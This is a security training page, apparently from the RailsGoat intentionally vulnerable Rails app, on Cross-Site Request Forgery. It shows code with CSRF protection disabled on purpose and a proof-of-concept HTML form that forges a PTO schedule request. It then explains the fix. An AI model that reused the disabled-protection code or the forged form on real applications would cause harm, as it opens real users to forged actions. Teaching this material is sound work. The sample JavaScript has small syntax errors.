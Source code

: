 # Description

A CSRF attack forces a logged-on victim’s browser to send a forged HTTP request, including the victim’s session cookie and any other automatically included authentication information, to a vulnerable web application. This allows the attacker to force the victim’s browser to generate requests the vulnerable application thinks are legitimate requests from the victim.

# Bug

Cross-Site Request Forgery (CSRF) - The following code was taken from: /app/controllers/application_controller.rb and /app/views/layouts/application.html.erb

application_controller.rb

```ruby
# Our security guy keep talking about sea-surfing, cool story bro.
# Prevent CSRF attacks by raising an exception.
# For APIs, you may want to use :null_session instead.
#protect_from_forgery with: :exception
```

application.html.erb

```erb
<%#= csrf_meta_tags %> <!-- <~ What is this for? I hear it helps w/ JS and Sea-surfing.....whatevz -->
```
# Solution

### Cross-Site Request Forgery ATTACK:

The application allows users to update their calendar and schedule PTO events (PTO section). Due to the fact CSRF protections are disabled, the AJAX request will send the authenticity token but the application will not validate either its presence or validity. Create an html page using the code shown below, authenticate as another user, click on it, review the new calendar (change the dates under date_range1). You should see this HTML code will work, even if you hadn't navigated to the PTO section prior to sending it.

```html
<html>
 <body>
   <form action="http://railsgoat.dev/schedule.json" method="POST">
     <input type="hidden" name="schedule&#91;event&#95;name&#93;" value="Bad&#32;Guy" />
     <input type="hidden" name="schedule&#91;event&#95;type&#93;" value="pto" />
     <input type="hidden" name="schedule&#91;event&#95;desc&#93;" value="Fun&#32;Fun" />
     <input type="hidden" name="date&#95;range1" value="06&#47;08&#47;2013&#32;&#45;&#32;06&#47;09&#47;2013" />
     <input type="submit" value="Submit request" />
   </form>
 </body>
</html>
```

### Cross-Site Request Forgery SOLUTION:

By default, the protect_from_forgery directive is added under the application_controller.rb at project creation. However, occasionally developers turn it off (comment out) because of issues with JS. There are two separate solutions around the JS problem.

Once protect_from_forgery is added back, add the following code within the header section of the application.html.erb file (or any other application layout file).

```erb
<%= csrf_meta_tags %>
```

That will allow you to parse the meta tag with JS. However, keep in mind that any form generated by Rails is populated with an authenticity token so, if you leverage something like JQuery to make an Ajax request, you can include all values within the form by using the technique shown next.

Leverage the serialize() method, shown on line 3. This grabs all the values from the form, including the authenticity token.

```javascript
("#example_submit_button_id").click(function(event) {
    var valuesToSubmit = $("#example_form_id").serialize();
    event.preventDefault();
    $.ajax({
      url: "/example",
      data: valuesToSubmit,
      type: "POST",
      success: function(response) {
        alert('success!');
      },
      error: function(event) {
        alert('failure!');
      }
    });
});
} 
```

# Hint

PTO is precious, glad my calendar is safe!